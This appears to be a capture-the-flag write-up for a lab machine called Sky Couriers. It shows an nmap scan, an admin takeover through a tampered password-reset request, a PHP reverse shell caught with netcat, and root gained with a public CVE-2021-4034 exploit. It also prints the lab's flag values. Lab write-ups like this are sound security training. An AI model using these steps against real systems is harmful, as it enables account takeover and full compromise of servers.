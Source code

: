 # IP
10.10.190.155


## Enumeration
### Nmap
- Found two ports running on the machine

```console
❯ nmap -sC -sV 10.10.190.155 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-31 14:20 IST
Nmap scan report for 10.10.190.155
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds
```

### Web
- On going to we page found a simple and a lot static website, except, search input and a login screen.
- Try using SQL Injection on the search input, but didn't find anything interesting.
- Tried SQL Injection on the login screen but didn't find anything interesting. 
- Then created a new user and logged in.
- There was nothing interesting on the dashboard but in profile, found an upload option but it was only allowed for `admin@sky.thm`.
- On the home screen there was an option to reset password, tried changing password for my user and intercepted the network with `BurpSuite`.
- Sent this request to `repeater` and edited the username to admin@sky.thm.
- Tried logging in with username `admin@sky.thm` and voila we are using the administrator account.
- Uploaded a php-reverse-shell to the Image option. 
- But we still don't know where is it stored.
- On looking at the page source found a comment
```html
<!-- /v2/profileimages/ -->
<script type="text/javascript">
        function showtab(tab){
          console.log(tab);
          if(tab == 'new_task'){
            $('#new_task').css('display','block');
            $('#your_task').css('display','none');
          }else{
            $('#new_task').css('display','none');
            $('#your_task').css('display','block');
          }
        }
      </script>
```
- This directory seems legit.



# Exploitation
## Web
On going to (http://10.10.190.155/v2/profileimages/php-reverse-shell.php) got the reverse shell.
```console
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.190.155] 32854
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 09:43:29 up 58 min,  0 users,  load average: 0.52, 0.15, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
- Upgraded the shell and found the user flag
```console
www-data@sky:/$ ls -a
.    boot   etc   lib32   lost+found  opt   run   srv	    tmp
..   cdrom  home  lib64   media       proc  sbin  swap.img  usr
bin  dev    lib   libx32  mnt	      root  snap  sys	    var
www-data@sky:/$ cd /home
www-data@sky:/home$ ls
webdeveloper
www-data@sky:/home$ cd webdeveloper/
www-data@sky:/home/webdeveloper$ ls
user.txt
www-data@sky:/home/webdeveloper$ cat user.txt
63191e4ece37523c9fe6bb62a5e64d45
```

- On loading `linpeas.sh` found this system vulnerable to [CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)

### Privilege Escalation
- Downloaded [this](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c) exploit.
- Uploaded to the machine from local machine.
- Made an executable with `gcc` and executed it.
```console
www-data@sky:/tmp$ gcc cve-2021-4034-poc.c
www-data@sky:/tmp$ ls
a.out  cve-2021-4034-poc.c  cve-2021-4034.sh  linpeas.log  linpeas.sh  tmux-33
www-data@sky:/tmp$ ./a.out
# whoami
root
#
```
- We are root.
- Got root flag.
```console
# cat /root/root.txt
3a62d897c40a815ecbe267df2f533ac6
```
